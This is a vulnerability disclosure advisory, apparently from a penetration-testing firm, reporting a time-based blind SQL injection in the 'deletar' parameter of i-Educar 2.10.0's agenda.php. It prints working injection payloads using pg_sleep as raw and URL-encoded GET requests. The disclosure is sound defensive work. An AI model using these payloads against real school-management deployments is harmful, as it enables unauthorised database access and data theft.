

<div align="center">
  
  
  # Time-Based Blind SQL Injection in i-Educar (deletar parameter in agenda.php)
  
  
</div>

<table>
  <tr>
    <td><strong>Author</strong></td>
    <td><a href="https://www.linkedin.com/in/nmmorette/">Natan Morette</a> on behalf of <a href="https://thoropass.com">Thoropass</a></td>
  </tr>
  <tr>
    <td><strong>Affected Application</strong></td>
    <td>
      <a href="https://github.com/portabilis/i-educar">i-Educar</a><br>
      <small>
        Open-source, web-based school management system widely used by public
        education institutions in Brazil to manage academic and administrative
        data in real time.
      </small>
    </td>
  </tr>
  <tr>
    <td><strong>Affected Version</strong></td>
    <td>2.10.0</td>
  </tr>
  <tr>
    <td><strong>Endpoint</strong></td>
    <td><code>/intranet/agenda.php</code></td>
  </tr>
  <tr>
    <td><strong>Vulnerability Type</strong></td>
    <td>Time-Based Blind SQL Injection</td>
  </tr>
  <tr>
    <td><strong>CVE ID</strong></td>
    <td>
      <a href="https://www.cve.org/CVERecord?id=INSERT" target="_blank" rel="noopener noreferrer">
        
      </a>
    </td>
  </tr>
</table>

## **Summary**

The deletar parameter in the agenda.php page of the i-Educar system is vulnerable to **time-based blind SQL injection**. An attacker can craft a malicious request that manipulates the SQL logic and introduces delays via pg_sleep() — thereby **proving code execution** in the backend PostgreSQL database.

This vulnerability allows **unauthenticated attackers** to exploit the application in a **stealthy and reliable way**, potentially leading to data exfiltration or full compromise of the backend logic.


## **Technical Details**

### **Vulnerable Request:**

```jsx
GET /intranet/agenda.php?cod_agenda=2&time=1769548041&deletar=1' AND (SELECT 1 FROM pg_sleep(3)) IS NULL AND 'a'='a HTTP/1.1
Host: localhost
Cookie: i_educar_session=oPSWZGZAoaklSkX60cVXos50m3HfqrO8VW8PC0KW
```

- The parameter deletar is concatenated directly into a SQL statement.
- The payload **injects a subquery** using PostgreSQL’s pg_sleep(3) function.
- When executed, this causes the SQL server to **intentionally delay** the response.
- By measuring the time difference between requests, it is possible to infer **boolean conditions** and exfiltrate sensitive data **bit by bit**.


### **PoC (Proof of Concept)**

1. First, send a normal request to the endpoint `/intranet/agenda.php`:
<p align="center">
  
</p>

2. Time delay using pg_sleep(10):
```jsx
GET /intranet/agenda.php?cod_agenda=2&time=1769548041&deletar=1'%20AND%20(SELECT%201%20FROM%20pg_sleep(10))%20IS%20NULL%20AND%20'a'%3D'a
```
<p align="center">
  
</p>

Expected delay: ~10 seconds 

## **Impact**

- Remote attackers can execute **arbitrary SQL logic**
- Potential for **exfiltration of database schema and contents**
- Risk of **full compromise** of authentication, session data, or system internals
- Could be chained with other bugs (e.g. auth bypass or RCE via DB-level functions)

## **References**

- [OWASP Top 10: A01 – Broken Access Control](https://owasp.org/Top10/en/A01_2021-Broken_Access_Control/)
- [OWASP SQL Injection Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [PostgreSQL pg_sleep() documentation](https://www.postgresql.org/docs/current/functions-datetime.html#FUNCTIONS-DATETIME-DELAY)


## About Thoropass

Thoropass delivers enterprise-grade audits with AI-native speed and precision. Designed from day one to integrate auditors, automation, and infosec workflows in a single, closed-loop system — no add-ons, no handoffs.

Our experienced penetration testing team proactively discovers vulnerabilities in web applications, APIs, and infrastructure — helping organizations secure their systems before attackers find weaknesses.
<div align="center">
  <br>
  <a href="https://thoropass.com/contact" target="_blank" rel="noopener noreferrer">
    
  </a>
  <br><br>
</div>


<div align="center">
  <a href="https://www.thoropass.com/platform/penetration-testing" target="_blank" rel="noopener noreferrer">
    
  </a>
  <a href="https://www.linkedin.com/company/thoropass/" target="_blank" rel="noopener noreferrer">
    
</div>

- ---

<div align="center">
  <br><br>
  <a href="https://www.thoropass.com/talk-to-an-expert" target="_blank" rel="noopener noreferrer">
    
  </a>
</div>


